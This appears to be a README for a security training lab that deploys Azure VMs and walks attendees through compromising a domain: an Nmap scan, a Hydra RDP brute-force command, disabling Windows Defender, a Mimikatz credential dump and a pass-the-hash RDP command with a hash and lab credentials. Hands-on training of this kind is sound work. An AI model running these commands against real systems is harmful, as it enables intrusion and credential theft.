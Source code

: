 # Copilot-For-Security

Download files from the Setup folder.

Start Azure CloudShell.

Upload files downloaded from Setup folder to CloudShell.

If you have many subscriptions, set the subscription where you are going to deploy the environment. For this, you can use the cmd "AZ-SetContext".

Set-AzContext -SubscriptionId "79c2a240-1a7f-482f-a315-xxxxxxxxx"
Warning: You have to be sure that the Auto-provisioning of Defender for Server is not enabled on your subscription

Run the script deploy.ps1

Note: Don't worry about Warning messages

Once the deployment is done, share with attendees information about hack-vm that you get on the output section:

IPAddress
Login
Password
Solution
Connect to the hack-vm using RDP. Your coach will provide you with the Public IP address and credentials.

Use a tool from the toolbox to discover the private IP address of the workstation-vm.

a. Download and install Nmap from "https://nmap.org/download.html"

b. Run Nmap to scan the local network of hack-vm 10.0.0.0/24

c. In the result you can see that the port rdp 3389 is open on the vm 10.0.0.100

nmap

Use a tool from the toolbox to find the login and password that will allow you to connect to the workstation-vm using RDP.

a. Download Hydra application from https://github.com/maaaaz/thc-hydra-windows

b. Download username.txt and password.txt files

c. Using Hydra application run a brute force attack on rdp port of the vm 10.0.0.100.

.\hydra.exe -t 4 -V -f -L .\username.txt -P .\password.txt rdp://10.0.0.100
d. After some attempts, the application will stop and you can see, the login and the password that have worked

Login: johnson

Password: P@ssw0rd1984

hydra

Connect to the workstation-vm using RDP and the login and password found in step 3.

Discover the IP address of the domain controller.

  nslookup
  > set type=all
  > _ldap._tcp.dc._msdcs.contoso.com
dc

Note: You can help attendees with this link https://support.avigilon.com/s/article/Windows-How-to-Get-the-IP-Port-Used-and-IP-Addresses-of-Domain-Controllers-AD-Servers?language=en_US

Use a tool from the toolbox, (a) to find the login and password hash of the Domain Admin then (b) to connect to the domain controller using RDP.

a. Disable "Real-time Protection", "Cloud-delivered protection" and "Automatic sample submission" in Windows Security

win-sec

b. Download mimikatz application from https://github.com/ParrotSec/mimikatz

c. Run Mimikatz, then run the following commands:

.\mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
d. Find the password hash of the domain Admin "dcadmin"

mimikatz

e. Run this command in Mimikatz to connect to Domain controller using RDP

sekurlsa::pth /user:dcadmin /domain:contoso /ntlm:95771f22bc8fe09f0cb74443495bb587 /run:"mstsc.exe /restrictedadmin"
f. Introduce the IP address of the domain controller "10.0.1.250" in Computer parameter on MSTC application

win-sec

Note: Don't modify the "user name" parameter

Clean up
Run the script delete.ps1
